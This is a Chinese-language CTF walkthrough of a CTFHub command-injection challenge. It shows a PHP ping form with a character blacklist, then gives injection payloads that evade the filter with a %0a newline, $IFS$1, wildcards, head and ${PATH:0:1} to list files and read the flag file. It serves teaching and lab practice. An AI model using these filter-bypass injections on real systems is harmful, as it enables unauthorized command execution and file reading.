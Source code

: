```python
<form action="#" method="GET">
    <label for="ip">IP : </label><br>
    <input type="text" id="ip" name="ip">
    <input type="submit" value="Ping">
</form>

<hr>

<pre>
<?php
if ($res) {
    print_r($res);
}
?>
</pre>

<?php
show_source(__FILE__);
?>

</body>
</html>
```

代码审计后发现过滤的东西挺多的   <font style="color:#601BDE;">!preg_match_all("/(\||&|;| |\/|cat|flag|ctfhub)/", $ip, $m)</font>

<font style="color:#000000;">分号和逻辑运算符被过滤了 所以我们用%0a来替代分号  先寻找flag位置</font>

```python
?ip=127.0.0.1%0als
```

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1736929590304-919f04eb-9946-4806-aca3-a75869d6c3de.png)

接着查看flag_is_here文件 利用$IFS$1代替空格  利用通配符f*来代替flag_is_here

```python
?ip=127.0.0.1%0Als$IFS$1f*
```

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1736929920585-63bb67ac-3339-480c-b526-591a8edab507.png)

发现flag文件 接着利用head代替cat来读取flag 目录分隔符用${PATH:0:1}来替代 flag继续使用通配符f*代替

```python
?ip=127.0.0.1%0Ahead$IFS$1f*${PATH:0:1}f*
```

查看源代码得到flag

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1736930348141-cf610231-2c68-4d2b-af2f-798c17099409.png)

##  RCE-labs[0-8]题
### [RCE-labs]Level 0 -  代码执行&命令执行
![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1736952038696-1c81cf10-d6b5-4768-9d4f-7750db99e638.png)
